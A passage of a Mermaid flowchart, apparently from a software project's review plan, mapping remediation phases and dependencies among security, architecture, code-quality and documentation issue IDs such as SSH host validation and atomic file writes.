    P3a["Phase 3a: Security<br/>21 issues"]
    P3b["Phase 3b: Architecture<br/>8 issues"]
    P3c["Phase 3c: Code Quality<br/>37 issues"]
    P3d["Phase 3d: Documentation<br/>32 issues"]
    P4["Phase 4: Verification<br/>make checkall"]
    DEF["Deferred → ENHANCEMENTS.md<br/>ARC-002, ARC-003, ARC-009, QA-022"]

    P1 --> P2
    P2 --> P3a & P3b & P3c & P3d
    P3a & P3b & P3c & P3d --> P4
    P4 -.-> DEF

    ARC001["ARC-001 delete src/ssh/"] -->|blocks| SEC003["SEC-003 SSH host validation"]
    ARC004["ARC-004 buffer suballocation"] -->|blocks| QA011["QA-011 screenshot path"]
    ARC004 -->|blocks| QA015["QA-015 wgpu caps"]
    QA012["QA-012 ACP drain"] -->|blocks| QA028["QA-028 unbounded channels"]
    QA023["QA-023 generic atomic save"] -->|subsumes| QA010["QA-010 non-atomic writes"]
    QA023 -->|subsumes| SEC021["SEC-021 arrangements 0600"]
    QA023 -->|blocks| QA029["QA-029 logs_dir signature"]
    DOC022["DOC-022 link validation"] -->|blocks| DOC002["DOC-002/003/016 link fixes"]
    SEC006["SEC-006 shader /tmp"] -->|blocks| SEC008["SEC-008 SECURITY.md"]
    SEC013["SEC-013 WriteText denylist"] -->|blocks| SEC008
```
